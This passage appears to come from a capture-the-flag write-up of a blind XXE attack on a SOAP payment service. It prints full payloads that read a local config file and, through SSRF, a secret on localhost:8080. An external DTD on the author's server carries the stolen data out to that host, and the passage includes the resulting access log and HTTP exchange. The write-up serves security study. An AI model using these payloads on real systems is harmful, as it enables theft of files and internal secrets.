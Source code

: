 The decoded parameter from the request above is:

```
<!DOCTYPE aa[<!ELEMENT bb ANY>
<!ENTITY % file SYSTEM "file:///home/ec2-user/config.txt">
<!ENTITY % dtd SYSTEM "http://kali-sean.gremwell.com:8080/sdr.dtd">
%dtd;]><bb>&send;</bb>
```

The sdr.dtd file on our server has the following contents.

```
<?xml version="1.0" encoding="UTF-8"?><!ENTITY % all "<!ENTITY send SYSTEM 'http://kali- sean.gremwell.com:8080/%file;'>">%all;
```

The request results in the following GET request being sent to our server:

```
18.216.183.118 - - [05/Feb/2019 11:01:25]
"GET /backend_secret=http://localhost:8080/secret.txt HTTP/1.1" 404 -
```

The request contains the contents of the config.txt file, which references a backend server running on localhost port 8080 which contains the secret.

#### Exploiting XXE to retrieve the secret

To get the secret file, a similar attack as the last step needs to be done. Instead of reading the config file, a request to the backend server on port 8080 needs to be done.

This can be done via the following request.

```
POST /paymentProcessor HTTP/1.1
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "authenticate"
Content-Length: 520
Host: localhost:1212
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:cyb="http://cybersecchallenge/">
  <soapenv:Header/>
  <soapenv:Body>
     <cyb:processPayment>
        <arg0>&lt;!DOCTYPE aa[&lt;!ELEMENT bb ANY&gt;
&lt;!ENTITY % file SYSTEM &quot;http://localhost:8080/secret.txt&quot;&gt;
&lt;!ENTITY % dtd SYSTEM &quot;http://kali-sean.gremwell.com:8080/sdr.dtd&quot;&gt;
%dtd;]&gt;&lt;bb&gt;&amp;send;&lt;/bb&gt;</arg0>
     </cyb:processPayment>
  </soapenv:Body>
</soapenv:Envelope>


HTTP/1.1 200 OK
Content-type: text/xml; charset=utf-8
Date: Tue, 05 Feb 2019 10:03:37 GMT
Content-Length: 606
<?xml version="1.0" ?><S:Envelope
xmlns:S="http://schemas.xmlsoap.org/soap/envelope/"><S:Body><ns2:processPaymentResponse
xmlns:ns2="http://cybersecchallenge/"><return>/home/ec2-user/PaymentProcessor.java:
Error parsing &lt;!DOCTYPE aa[&lt;!ELEMENT bb ANY&gt;
&lt;!ENTITY % file SYSTEM &quot;http://localhost:8080/secret.txt&quot;&gt;
&lt;!ENTITY % dtd SYSTEM &quot;http://kali-sean.gremwell.com:8080/sdr.dtd&quot;&gt;
%dtd;]&gt;&lt;bb&gt;&amp;send;&lt;/bb&gt;
Ensure configuration file config.txt is properly deployed on the application
server.</return></ns2:processPaymentResponse></S:Body></S:Envelope>
```